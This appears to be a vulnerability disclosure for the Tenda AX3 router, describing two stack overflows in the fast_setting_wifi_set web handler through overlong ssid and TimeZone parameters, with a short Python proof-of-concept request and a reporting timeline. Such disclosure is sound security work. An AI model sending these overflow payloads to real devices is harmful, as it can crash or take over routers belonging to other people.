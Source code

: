 ## Tenda Router AX3 Vulnerability

There is a vulnerability lies in page goform/fast_setting_wifi_set,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)). 

## Description

Vulnerability function  form_fast_setting_wifi_set

![image-20220115020633570](./1.png) 

The v5 variable is obtained directly from the http request parameter ssid. Then v5 will be assigned to v6.

This function uses strcpy to copy the variable v6 to the stack variable par without any sercuity check.

Attacker can construct a long ssid parameter in the http request,which causes stack overflow.

![image-20220115021518187](2.png)

 

The v20 variable is directly retrieved from the http request parameter TimeZone.

Then v20 will be splice to stack by function sscanf without any security check,which causes stack overflow.

Combining the above two vulnerabilities can cause arbitrary code execution.

## POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/fast_setting_wifi_set"
ssid = "a" * 0x1000
timeZone = "b"*0x1000
r = requests.post(url, data={'ssid': ssid, 'timeZone': timeZone})
print(r.content)
```

## Timeline

- 2021-12-31 report to CNVD & CVE
- 2022-01-18 CNVD ID assigned : CNVD-2022-04451
